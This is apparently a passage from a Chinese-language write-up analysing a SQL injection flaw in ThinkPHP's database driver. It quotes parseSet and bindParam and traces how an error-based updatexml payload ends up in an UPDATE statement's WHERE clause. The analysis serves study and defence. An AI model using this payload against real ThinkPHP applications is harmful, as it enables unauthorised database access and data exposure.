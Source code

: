 ```php
}
```

首先在`parseSet`对`=:`进行解析

```php
#ThinkPHP/Library/Think/Db/Driver.class.php
protected function parseSet($data) {
    foreach ($data as $key=>$val){
        if(is_array($val) && 'exp' == $val[0]){
            $set[]  =   $this->parseKey($key).'='.$val[1];
        }elseif(is_null($val)){
            $set[]  =   $this->parseKey($key).'=NULL';
        }elseif(is_scalar($val)) {// 过滤非标量数据
            if(0===strpos($val,':') && in_array($val,array_keys($this->bind)) ){
                $set[]  =   $this->parseKey($key).'='.$this->escapeString($val);
            }else{
                $name   =   count($this->bind);
                $set[]  =   $this->parseKey($key).'=:'.$name;
                $this->bindParam($name,$val);
            }
        }
    }
    return ' SET '.implode(',',$set);
}
#ThinkPHP/Library/Think/Db/Driver.class.php
protected function bindParam($name,$value){
    $this->bind[':'.$name]  =   $value;
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191722861.png)

然后进行`parseWhereItem`操作

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191638739.png)

此时`wherestr`的值为

```
`username` = :0 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

在返回到`parseWhere`后得到的`wherestr`为

```
 WHERE `username` = :0 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```

此时`$sql`为

```
UPDATE `user` SET `password`=:0 WHERE `username` = :0 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
